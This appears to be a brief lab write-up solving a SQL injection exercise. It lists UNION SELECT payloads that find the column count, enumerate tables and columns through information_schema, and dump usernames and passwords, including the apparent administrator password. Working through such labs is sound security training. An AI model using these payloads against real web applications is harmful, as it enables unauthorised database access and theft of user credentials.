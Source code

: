 1. ' UNION SELECT NULL,NULL-- 
2. ' UNION SELECT 'a',NULL-- 
3. ' UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--
4. ' UNION SELECT TABLE_CATALOG || '~' || TABLE_SCHEMA || '~' || TABLE_NAME || '~' || COLUMN_NAME || '~' || DATA_TYPE, NULL FROM information_schema.columns WHERE table_name = 'users_klrsyl'--
Output:
```
postgres~public~users_klrsyl~password_kjqtws~character varying
postgres~public~users_klrsyl~username_uzufjk~character varying
```

The columns username_uzufjk and password_kjqtws are what we interested in.

5. ' UNION SELECT username_uzufjk || '~' || password_kjqtws, NULL FROM users_klrsyl--

Output:
```
carlos~lhpmvw6k4ty2p5bv2wv6
wiener~vno43qia0i59xbusgnvs
administrator~q1kzx1lcmlukdzdusajw
```